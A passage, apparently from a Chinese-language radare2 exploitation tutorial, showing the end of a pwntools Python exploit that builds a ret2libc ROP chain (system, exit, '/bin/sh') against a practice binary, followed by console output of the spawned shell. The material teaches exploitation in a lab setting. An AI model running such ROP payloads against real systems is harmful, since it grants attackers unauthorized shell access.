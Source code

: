 ```python
    # Calculate offsets
    system_addr = libc_base + offset_system
    exit_addr = libc_base  + offset_exit
    binsh_addr = libc_base + offset_str_bin_sh

    log.info("system is at: 0x%x" % system_addr)
    log.info("/bin/sh is at: 0x%x" % binsh_addr)
    log.info("exit is at: 0x%x" % exit_addr)

    # Build 2nd payload
    payload2  =  "A"*140
    ropchain2 =  p32(system_addr)
    ropchain2 += p32(exit_addr)
    # Optional: Fix disallowed character by scanf by using p32(binsh_addr+5)
    #           Then you'll execute system("sh")
    ropchain2 += p32(binsh_addr)

    payload2 = payload2 + ropchain2
    p.sendline(payload2)

    log.success("Here comes the shell!")

    p.clean()
    p.interactive()

if __name__ == "__main__":
    main()
```

跑这个脚本我们就能成功拿到一个 shell：

```shell
$ python exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 24410
[*] puts is at: 0xf75db710
[*] libc base: 0xf75ce000
[*] system is at: 0xf760a060
[*] /bin/sh is at: 0xf7735768
[*] exit is at: 0xf75fd1b0
[+] Here comes the shell!
[*] Switching to interactive mode:

$ whoami
beet
$ echo EOF
EOF
```

# 后记

`Radare2`之旅的第二部分就到此结束了。我们简单地学习了一些`radare2`中漏洞利用的功能。在下一部分中，我们会学习`radare2`再脚本编写和恶意软件分析中的功能。
